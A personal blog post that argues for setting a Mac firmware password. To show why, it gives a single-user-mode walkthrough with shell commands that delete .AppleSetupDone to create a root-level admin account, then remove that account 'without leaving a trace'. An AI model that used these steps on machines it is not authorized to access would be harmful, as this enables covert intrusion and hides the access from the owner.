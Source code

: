 ```yaml
---
layout: post
title: How to hack a Mac
---
```


<div class="message">
  tl;dr The most important thing to set on any mac.
</div>

Do you use a mac?
Do you have an open firmware password set?
If not, reboot your machine, and hold down command-R to enter recovery mode. From there, select Utilities from the menubar, then click Firmware Password to set a password. Make sure you remember this. If you ever forget it, you can take your machine to an apple store where they will do some funky process and call the mothership, then reset your password.
There use to be an exploit where you could reboot without one of the ram sticks and it would reset the password, but that was patched a few years ago. Besides, most machines come with RAM soldered to the motherboard these days, so it is kind of a moot point. 

The open firmware password is at the hardware level, and will require the user to enter a password in order to boot any other operating system (or mode). On my mac, I have this, so if my machine were to ever be stolen, it would effectively be a brick. Since the SSD is technically removable (although non-standard) in my 15 retina MBP, a thief could theoretically remove the SSD and replace it with a blank one from other world computing, but unfortunately for them, it would be impossible to install a new OS on that drive without my firmware password, which would be very difficult to crack considering you cannot simply get a hash can run john the ripper.

Just for fun, I decided to see just how easy it would be to break into my own machine if I forgot the password. If you want to just reset the password, you can open a terminal in recovery mode, and type resetpassword to reset it. But I was more interested in how to break in without the owner knowing. If you changed the password, then it would be pretty obvious what you did. Here is what I did:

First, I rebooted into single user mode by restarting the machine and holding down command-s.

Once booted, mount the filesystem:
{% highlight bash %}
$ mount -uw /
{% endhighlight %}

Simply delete the applesetupdone file, and the next time the machine boots it will prompt you to create a new Administrator account, which convienently will have root privileges.
{% highlight bash %}
$ rm /var/db/.AppleSetupDone
{% endhighlight %}

Finally, reboot the machine.
{% highlight bash %}
$ reboot
{% endhighlight %}

At this point, you can go ahead and create a new user account which will have full root access. If you want to delete it without leaving a trace, reboot back into single user mode, then

Mount the filesystem:
{% highlight bash %}
$ mount -uw /
{% endhighlight %}

Then delete the user folder and a few other files:
{% highlight bash %}
$ rm /var/db/dslocal/nodes/Default/users/{username}.plist
$ rm -rf /Users/{username}
{% endhighlight %}

Finally, reboot the machine.
{% highlight bash %}
$ reboot
{% endhighlight %}

Please only do this on machines that you own, and make sure to set an open firmware password. Also, you could use FireVault instead of / in addition to this method, but it will not prevent you from removing the SSD and installing another os.

-----

Want to see something else added? <a href="https://github.com/dwj300/dwj300.github.io/issues/new">Open an issue.</a>
